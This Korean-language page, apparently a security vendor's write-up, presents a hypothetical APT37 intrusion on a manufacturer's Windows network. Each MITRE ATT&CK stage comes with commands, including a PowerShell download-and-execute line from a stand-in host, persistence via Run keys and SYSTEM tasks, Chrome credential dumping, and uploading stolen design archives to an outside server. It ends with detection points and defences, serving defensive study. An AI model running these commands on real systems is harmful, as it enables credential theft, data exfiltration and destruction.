 # APT37(ScarCruft) — 가상의 Windows 침투 시나리오

## 가정 환경

* **대상**: 한국 소재 제조업 본사 네트워크 (Windows 10/11 클라이언트)
* **모니터링**: 기본 이벤트 로그 + Sysmon v13 구성
* **보안 설정**: UAC 기본값 유지 (EnableLUA = 1)
* **목표**: R\&D 설계 도면 탈취 후 내부 중요 PC 파괴

---

## 1️⃣ 초기 침투 (Initial Access / Execution)

| 순서  | TID                                   | 행위                          |
| --- | ------------------------------------- | --------------------------- |
| 1-1 | T1566.001 – Spear Phishing Attachment | 팀장에게 악성 한글(HWP) 문서 첨부 메일 발송 |
| 1-2 | T1204.002 – User Execution            | 사용자가 문서 열람, 매크로 실행          |
| 1-3 | T1105 – Ingress Tool Transfer         | 최종 백도어(Dolphin) 다운로드 및 실행   |

```powershell
powershell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://cdn.evilsite.kr/dropper.ps1')"
```

---

## 2️⃣ 권한 상승·지속화 (Privilege Escalation / Persistence)

| 순서  | TID                                     | 행위                         |
| --- | --------------------------------------- | -------------------------- |
| 2-1 | T1548.002 – Bypass User Account Control | UAC 우회 (Akagi + fodhelper) |
| 2-2 | T1547.001 – Registry Run Keys           | Run 키 등록으로 사용자 로그인 시 자동 실행 |

```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Update /t REG_SZ /d "%APPDATA%\update.exe"
```

| 순서  | TID                                     | 행위                         |
| 2-3   | T1053.005 – Scheduled Task              | SYSTEM 권한 확보 위한 예약 작업 생성      |

```cmd
schtasks /Create /RU SYSTEM /SC ONSTART /TN "SvcInit" /TR "%APPDATA%\update.exe"
```

---

## 3️⃣ 시스템·사용자 조사 (Discovery)

| 순서  | TID                                  | 행위                       |
| --- | ------------------------------------ | ------------------------ |
| 3-1 | T1082 – System Information Discovery | OS, 패치, 도메인 정보 수집        |
| 3-2 | T1033 – System Owner/User Discovery  | 사용자 정보 및 권한 확인           |
| 3-3 | T1057 – Process Discovery            | 백신 및 보안 프로세스 확인          |
| 3-4 | T1120 – Peripheral Device Discovery  | 외장 USB 탐지 (설계도 백업 여부 확인) |

```powershell
powershell -c "Get-PnpDevice -Class USB"
```

---

## 4️⃣ 자격 증명·데이터 수집 (Credential Access / Collection)

| 순서  | TID                                       | 행위              |
| --- | ----------------------------------------- | --------------- |
| 4-1 | T1555.003 – Credentials from Web Browsers | Chrome 저장 암호 덤프 |

```powershell
powershell -ep bypass -c "(Get-ItemProperty -Path 'HKCU:\Software\Google\Chrome\...') > '%TEMP%\chrome_creds.txt'"
```

\| 4-2   | T1005 – Data from Local System            | CAD/PDF 도면 검색 및 ZIP 압축 |

```powershell
$dir="C:\Projects"; $zip="$env:TEMP\designs.zip"; Compress-Archive -Path $dir\*.pdf,$dir\*.dwg -DestinationPath $zip
```

\| 4-3   | T1123 – Audio Capture                     | 회의 녹음 15초                |

```cmd
"%ProgramFiles%\AudioRecorder.exe" -out "%TEMP%\meeting.wav" -d 15
```

---

## 5️⃣ C2 통신·데이터 유출 (Command & Control / Exfiltration)

| 순서  | TID                               | 행위               |
| --- | --------------------------------- | ---------------- |
| 5-1 | T1071.001 – Web Protocols (HTTPS) | CDN 기반 HTTPS 터널링 |

```cmd
bitsadmin /transfer myDownload /download /priority normal "https://cdn.dropzone.net/beacon" "%TEMP%\b.dat"
```

\| 5-2   | T1105 – Ingress Tool Transfer     | 설계도 압축본 업로드     |

```powershell
Invoke-RestMethod "https://cdn.dropzone.net/upload" -InFile "$env:TEMP\designs.zip"
```

---

## 6️⃣ 파괴 행위 (Impact)

| 순서  | TID                            | 행위                 |
| --- | ------------------------------ | ------------------ |
| 6-1 | T1529 – System Shutdown/Reboot | 강제 재부팅 → 암호화 전환 시도 |

```cmd
shutdown /r /t 1 /f
```

\| 6-2   | T1027 – Obfuscated Files or Information | 랜섬노트 실행 Base64 인젝션 |

```powershell
powershell -c "IEX ([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('base64encodedransomscript==')))"
```

---

## 📌 탐지·수색 포인트 요약

| 단계     | Sysmon/Event ID           | 탐지 키워드                         |
| ------ | ------------------------- | ------------------------------ |
| 권한 상승  | Sysmon 1 (ProcessCreate)  | `Akagi64.exe`, `fodhelper.exe` |
| 시스템 조사 | Sysmon 1 / 4688           | `systeminfo`, `wmic`, `whoami` |
| 자격 탈취  | Event ID 4656             | `Chrome Login Data` 접근         |
| 외부 전송  | Sysmon 3 (NetworkConnect) | 외부 443 → SNI: `cdn-*`          |
| 시스템 파괴 | Event ID 1074             | `Shutdown Type: restart`       |

---

## 🔒 PLURA-XDR 대응 방법 요약 및 참고 자료

* 의심스러운 HWP/LNK 첨부 파일 차단 및 정밀 검사
* PowerShell IEX 및 Base64 인코딩 탐지 정책 강화
* Sysmon + PLURA-XDR 기반의 로그 상관 분석
* PLURA-EDR 통한 Akagi 실행·UAC 우회 패턴 탐지
* LNK 및 예약 작업 생성 탐지 정책 설정 필수

👉 [자세히 보기](plura_waf_xdr_detection.md)

---
